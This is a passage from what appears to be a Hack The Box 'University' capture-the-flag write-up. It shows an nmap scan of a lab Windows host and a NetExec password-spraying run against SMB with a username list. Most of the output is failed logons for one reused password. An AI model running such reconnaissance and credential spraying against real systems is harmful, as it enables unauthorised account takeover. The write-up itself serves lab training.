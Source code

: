 ```c
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV 192.168.99.2 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-27 18:05 CET
Nmap scan report for 192.168.99.2
Host is up (0.0099s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT    STATE SERVICE       VERSION
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_nbstat: NetBIOS name: WS-3, NetBIOS user: <unknown>, NetBIOS MAC: 00:15:5d:05:80:00 (Microsoft)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-10-28T00:05:56
|_  start_date: N/A
|_clock-skew: 7h00m00s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 54.80 seconds
```

### Password Re-use

For the `Windows` system we used `NetExec` to look for working `credentials` but for the `Linux` system we needed to switch to `Hydra` because of some weird error messages.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/University/files]
└─$ netexec smb 192.168.99.2 -u usernames.txt -p passwords.txt --continue-on-success
SMB         192.168.99.2    445    WS-3             [*] Windows 10 / Server 2019 Build 17763 x64 (name:WS-3) (domain:university.htb) (signing:False) (SMBv1:False)
SMB         192.168.99.2    445    WS-3             [-] university.htb\A.Crouz:WebAO1337 STATUS_LOGON_FAILURE 
SMB         192.168.99.2    445    WS-3             [-] university.htb\Alice.Z:WebAO1337 STATUS_LOGON_FAILURE 
SMB         192.168.99.2    445    WS-3             [-] university.htb\Arnold.G:WebAO1337 STATUS_LOGON_FAILURE 
SMB         192.168.99.2    445    WS-3             [-] university.htb\Brose.W:WebAO1337 STATUS_LOGON_FAILURE 
SMB         192.168.99.2    445    WS-3             [-] university.htb\C.Freez:WebAO1337 STATUS_LOGON_FAILURE 
SMB         192.168.99.2    445    WS-3             [-] university.htb\Choco.L:WebAO1337 STATUS_LOGON_FAILURE 
SMB         192.168.99.2    445    WS-3             [-] university.htb\Emma.H:WebAO1337 STATUS_LOGON_FAILURE 
SMB         192.168.99.2    445    WS-3             [-] university.htb\George.A:WebAO1337 STATUS_LOGON_FAILURE 
SMB         192.168.99.2    445    WS-3             [-] university.htb\Jakken.C:WebAO1337 STATUS_LOGON_FAILURE 
SMB         192.168.99.2    445    WS-3             [-] university.htb\John.D:WebAO1337 STATUS_LOGON_FAILURE 
SMB         192.168.99.2    445    WS-3             [-] university.htb\Kai.K:WebAO1337 STATUS_LOGON_FAILURE 
SMB         192.168.99.2    445    WS-3             [-] university.htb\Kareem.A:WebAO1337 STATUS_LOGON_FAILURE 
SMB         192.168.99.2    445    WS-3             [-] university.htb\Karol.J:WebAO1337 STATUS_LOGON_FAILURE 
SMB         192.168.99.2    445    WS-3             [-] university.htb\Leon.K:WebAO1337 STATUS_LOGON_FAILURE 
```